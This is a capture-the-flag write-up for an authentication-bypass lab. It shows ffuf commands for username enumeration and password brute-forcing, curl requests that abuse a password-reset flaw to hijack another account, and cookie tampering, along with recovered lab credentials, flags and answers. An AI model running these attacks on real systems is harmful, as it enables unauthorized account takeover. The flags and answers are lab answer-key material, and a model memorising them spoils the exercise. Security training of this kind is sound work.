








# Walkthrough

## Username Enumeration

We can use the existence of an error message to produce a list of valid usernames already signed up on the system by using the `ffuf` tool. The `ffuf` tool uses a list of commonly used usernames to check against for any matches.

```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.200.105/customers/signup -mr "username already exists"
```

In the above example:
-w argument selects the file's location on the computer that contains the list of usernames that we're going to check exists.
-X argument specifies the request method, this will be a GET request by default, but it is a POST request in our example.
-d argument specifies the data that we are going to send. In our example, we have the fields username, email, password, and cpassword. We've set the value of the username to FUZZ. In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request.
-H argument is used for adding additional headers to the request. In this instance, we're setting the Content-Type to let the webserver know we are sending form data.
-u argument specifies the URL we are making the request to.
-mr argument is the text on the page we are looking for to validate we've found a valid username.
You can add >> listofusers.txt at the end to have the output in a text file. After running the command, these are the users found:



Username starting with si***: **simon**
Username starting with st***: **steve**
Username starting with ro****: **robert**

### Brute Force
In this task, we need to use our listofusers.txt file. However, the file needs to be edited prior to running another script.


Make sure that the file is in the same location from where you are running the script.

Previously, we used the FUZZ keyword to select where in the request the data from the wordlists would be inserted, but because we’re using multiple wordlists, we have to specify our own FUZZ keyword. In this instance, we’ve chosen W1 for our list of valid usernames and W2 for the list of passwords we will try. The multiple wordlists are again specified with the -w argument but separated with a comma. For a positive match, we're using the -fc argument to check for an HTTP status code other than 200.

```bash
ffuf -w listofusers.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.200.105/customers/login -fc 200
```

However, this is causing some trouble. No matter how you adjust the list, it may fail. You can let me know in the comments!
Meanwhile, we have only 4 users to enumerate, so this can be easily done by switching the command a little bit.

```bash
ffuf -w /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=steve&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.200.105/customers/login -fc 200
```



We change one thing here: username=steve, and it provides us with a matching password. This was the only user that matched our list of passwords.
Valid username and password (format: username/password): **steve/thunder**

### Logic Flaw
At this stage, you may be wondering what the vulnerability could be in this application as you have to know both the email and username and then the password link is sent to the email address of the account owner.
In the second step of the reset email process, the username is submitted in a POST field to the web server, and the email address is sent in the query string request as a GET field.
Let’s illustrate this by using the curl tool to manually make the request to the webserver.

```bash
curl 'http://10.10.200.105/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```
We use the -H flag to add an additional header to the request. In this instance, we are setting the Content-Type to application/x-www-form-urlencoded, which lets the web server know we are sending form data so it properly understands our request.

In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable $_REQUEST.

The PHP $_REQUEST variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favors POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.

```bash
curl 'http://10.10.200.105/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```
For the next step, you’ll need to create an account on the Acme IT support customer section. Doing so gives you a unique email address that can be used to create support tickets. The email address is in the format of {username}@customer.acmeitsupport.thm.

Now rerun the curl request but with your @acmeitsupport.thm in the email field. You’ll have a ticket created on your account which contains a link to log you in as Robert. Using Robert’s account, you can view their support tickets and reveal a flag.

```bash
curl 'http://10.10.200.105/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=user@customer.acmeitsupport.thm'
```



Flag from Robert’s support ticket: **THM{AUTH_BYPASS_COMPLETE}**
Cookie Tampering
First, we’ll start just by requesting the target page:
```bash
curl http://10.10.164.247/cookie-test
```
We got the message: Not Logged In.

Now we’ll send another request with the logged_in cookie set to true and the admin cookie set to false:

```bash
curl -H "Cookie: logged_in=true; admin=false" http://10.10.164.247/cookie-test
```
Finally, we’ll send one last request setting both the logged_in and admin cookies to true:

```bash

curl -H "Cookie: logged_in=true; admin=true" http://10.10.164.247/cookie-test
```


Once done, you will receive your first flag!

Flag from changing the plain text cookie values: **THM{COOKIE_TAMPERING}**

Value of the MD5 hash 3b2a1053e3270077456a79192070aa78: **463729**

Base64 decoded value of VEhNe0JBU0U2NF9FTkNPRElOR30=: **THM{BASE64_ENCODING}**


Encode the following value using base64 {“id”:1,”admin”:true} Answer: **eyJpZCI6MSwiYWRtaW4iOnRydWV9Cg==**



